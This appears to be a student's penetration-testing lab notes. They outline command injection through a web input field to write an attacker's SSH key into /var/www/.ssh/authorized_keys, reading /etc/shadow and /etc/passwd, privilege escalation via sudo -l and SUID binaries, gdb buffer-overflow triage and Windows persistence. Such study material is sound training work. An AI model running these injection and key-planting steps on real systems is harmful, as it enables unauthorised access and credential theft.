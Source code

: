 **SSH key upload**
    - cd .ssh , then ls 
    - file id_rsa | id_rsa.pub to verify what they are.
    - pubic key is the one that gets uploaded.
    - cat id_rsa.pub (copy all of it)
    - go back to your input field -> ; whoami (www-data) 
    - cat /etc/passwd to find the users home directory.
    - go back to the input field. -> ; ls -lisa /var/www -> mkdir /var/www/.ssh -> run ls command again.
    - then ; echo "" > /var/www/.ssh/authorized_keys (put your public key between the quotes).
    - then ; cat /var/www/.ssh/authorized_keys (to make sure it uploaded)
    - then ssh into the box. ssh -i id_rsa www-data@10.50.32.44
    **you might find a private key hidden in a directory somewhere** if you do, save this key and name it something, go to that directory, then use the ssh -i command to ssh in as that user (with their username)

**exe replacement**
    - try to rename, create a file etc.

**post ex**
     - check /etc/crontab, /var/spool
     - /etc/shadow, /etc/passwd, /etc/hosts

**priv esc**
    - sudo -l
    - check GTFObins for vulnerable stuff. Also check SUID / SGID stuff.

**remote logging (rsyslog)**
    - /etc/rsyslog.d/* | /etc/rsyslog.conf 

**binary analysis, reverse engineering, RE**
    - we get a file, need to figure out how it works. run 'file' on it. if you see ELF, think linux.
    - behavioural analysis, figure out how it takes information. ./func <<< $(echo "assdflsk")
    - we don't always need the carrots, carrots send it as user input.
    - gdb ./func -> run
    - GDB to disassemble and look at linux binaries. (if you see GDB, dissassemble a binary)
    - pdisass main (to look at main function) or disass if you don't have peda.
    - we see a function, pdisass 'name of function' to see it.
    - red is a vulnerable function! google name of function + buffer overflow vulnerability

**windows persistence**
    - registry
    - schtasks (task scheduler)
    - services

